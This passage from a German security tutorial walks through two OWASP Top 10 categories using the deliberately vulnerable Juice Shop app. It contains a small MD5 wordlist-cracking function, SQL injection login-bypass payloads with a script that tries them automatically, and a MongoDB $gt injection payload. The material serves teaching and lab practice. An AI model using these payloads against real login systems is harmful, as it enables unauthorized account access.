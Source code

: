 ### 2. Cryptographic Failures
**Beschreibung:** Schwache oder fehlende Verschlüsselung

**Häufige Probleme:**
- Klartext-Speicherung von Passwörtern
- Schwache Hash-Algorithmen (MD5, SHA1)
- Hardcoded Secrets

**Juice Shop Beispiel:**
```python
# MD5 Hash Cracking
def crack_md5_password(hash_value):
    wordlist = ["admin", "password", "123456"]
    for password in wordlist:
        if hashlib.md5(password.encode()).hexdigest() == hash_value:
            return password
```

### 3. Injection
**Beschreibung:** Unvalidierte Eingaben ermöglichen Code-Injection

#### SQL Injection
```sql
-- Vulnerable Query
SELECT * FROM users WHERE email = '" + userInput + "'

-- Malicious Input: admin@juice-sh.op'--
-- Results in: SELECT * FROM users WHERE email = 'admin@juice-sh.op'--'
```

**Automatisierte SQL Injection:**
```python
def sql_injection_login():
    payloads = [
        "admin@juice-sh.op'--",
        "' OR '1'='1'--",
        "' UNION SELECT * FROM users--"
    ]
    
    for payload in payloads:
        response = login_attempt(payload, "anything")
        if "Welcome" in response.text:
            return payload  # Successful exploit
```

#### NoSQL Injection
```javascript
// Vulnerable MongoDB Query
db.users.find({email: req.body.email, password: req.body.password})

// Malicious Payload
{"email": {"$gt": ""}, "password": {"$gt": ""}}
```

